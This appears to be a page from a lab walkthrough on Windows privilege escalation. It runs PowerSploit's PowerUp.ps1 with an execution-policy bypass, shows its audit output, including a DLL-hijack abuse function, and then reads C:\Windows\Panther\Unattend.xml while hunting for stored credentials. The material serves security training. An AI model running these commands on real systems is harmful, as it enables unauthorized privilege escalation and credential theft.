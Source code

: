 _Navigate to the 'PrivEsc' directory and list its contents._

`cd ./PrivEsc`, `dir`:
```
    Directory: C:\Users\student\Desktop\PowerSploit\Privesc

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/27/2020  10:09 AM          26768 Get-System.ps1
-a----       10/27/2020  10:09 AM         600580 PowerUp.ps1 ←
-a----       10/27/2020  10:09 AM           1659 Privesc.psd1
-a----       10/27/2020  10:09 AM             67 Privesc.psm1
-a----       10/27/2020  10:09 AM           4569 README.md
```

_Execute the PowerUp.ps1 script to identify potential privilege escalation vulnerabilities._

`powershell -ep bypass -c ". ./PowerUp.ps1; Invoke-PrivEscAudit"`:
```
ModifiablePath    : C:\Users\student\AppData\Local\Microsoft\WindowsApps
IdentityReference : PRIV-ESC\student
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\student\AppData\Local\Microsoft\WindowsApps
Name              : C:\Users\student\AppData\Local\Microsoft\WindowsApps
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\student\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'

UnattendPath : C:\Windows\Panther\Unattend.xml ←
Name         : C:\Windows\Panther\Unattend.xml
Check        : Unattended Install Files
```

**Explanation:** The `Invoke-PrivEscAudit` function from the `PowerUp.ps1` script scans the system for potential privilege escalation vulnerabilities. It detects an `Unattend.xml` file, commonly used in unattended Windows installations, which may contain sensitive information like credentials.

_Display the contents of the Unattend.xml file to search for sensitive information._

`type C:\Windows\Panther\Unattend.xml`:
```
<?xml version="1.0" encoding="utf-8"?>
<unattend xmlns="urn:schemas-microsoft-com:unattend">
    <settings pass="windowsPE">
        <component name="Microsoft-Windows-Setup" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
            <UserData>
                <ProductKey>
                    <WillShowUI>Always</WillShowUI>
                </ProductKey>
            </UserData>
            <UpgradeData>
                <Upgrade>true</Upgrade>
                <WillShowUI>Always</WillShowUI>
            </UpgradeData>
        </component>
        <component name="Microsoft-Windows-PnpCustomizationsWinPE" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
            <DriverPaths>
                <PathAndCredentials wcm:keyValue="1" wcm:action="add">
                    <Path>$WinPEDriver$</Path>
                </PathAndCredentials>
            </DriverPaths>
        </component>
    </settings>
```